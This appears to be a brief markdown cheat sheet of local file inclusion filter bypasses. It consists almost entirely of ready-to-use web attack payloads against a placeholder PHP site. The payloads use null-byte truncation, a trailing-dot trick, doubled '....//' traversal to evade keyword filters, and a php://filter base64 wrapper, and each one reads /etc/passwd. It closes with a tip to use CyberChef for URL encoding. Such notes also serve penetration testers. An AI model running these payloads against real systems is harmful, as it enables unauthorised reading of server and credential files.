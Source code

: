 # LFI Filter Bypass

## Null Byte bypass

### Example:

    http://site.com/index.php?file=../../../etc/passwd%00 (0x00 in hex)

## Current directory trick

    http://site.com/index.php?file=../../../etc/passwd/.

## Keyword filter bypass

### Example:

     http://site.com/index.php?file=....//....//....//....//etc/passwd

## Base64 PHP Filter

     http://site.com/index.php?file=php://filter/convert.base64-encode/resource=../../etc/passwd

## HTML URL Encoding bypass

### Use Cyberchef! https://gchq.github.io/CyberChef/
